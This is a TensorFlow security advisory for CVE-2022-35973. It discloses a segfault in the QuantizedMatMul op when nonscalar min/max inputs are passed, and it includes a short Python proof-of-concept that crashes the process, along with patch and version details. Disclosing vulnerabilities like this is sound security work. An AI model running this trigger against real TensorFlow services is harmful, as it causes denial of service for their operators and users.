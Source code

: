 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-107.md
## TFSA-2022-107: Segfault in `QuantizedMatMul`

### CVE Number
CVE-2022-35973

### Impact
If `QuantizedMatMul` is given nonscalar input for:
 - `min_a`
 - `max_a`
 - `min_b`
 - `max_b`
It gives a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

Toutput = tf.qint32
transpose_a = False
transpose_b = False
Tactivation = tf.quint8
a = tf.constant(7, shape=[3,4], dtype=tf.quint8)
b = tf.constant(1, shape=[2,3], dtype=tf.quint8)
min_a = tf.constant([], shape=[0], dtype=tf.float32)
max_a = tf.constant(0, shape=[1], dtype=tf.float32)
min_b = tf.constant(0, shape=[1], dtype=tf.float32)
max_b = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedMatMul(a=a, b=b, min_a=min_a, max_a=max_a, min_b=min_b, max_b=max_b, Toutput=Toutput, transpose_a=transpose_a, transpose_b=transpose_b, Tactivation=Tactivation)
```

### Patches
We have patched the issue in GitHub commit [aca766ac7693bf29ed0df55ad6bfcc78f35e7f48](https://github.com/tensorflow/tensorflow/commit/aca766ac7693bf29ed0df55ad6bfcc78f35e7f48).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
